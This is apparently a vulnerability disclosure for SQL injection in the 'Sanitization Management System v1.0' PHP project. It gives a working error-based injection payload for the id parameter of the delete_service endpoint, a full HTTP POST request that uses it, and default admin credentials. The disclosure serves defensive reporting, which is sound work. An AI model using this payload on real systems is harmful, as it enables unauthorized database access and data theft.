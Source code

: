 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: daytime

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/classes/Master.php?f=delete_service

Vulnerability location: /php-sms/classes/Master.php?f=delete_service, id

dbname =sms_db,length=6

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /php-sms/classes/Master.php?f=delete_service HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/php-sms/admin/?page=services
Content-Length: 65
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/195979725-84517029-3d18-4f55-835c-4c8d517d3302.png)
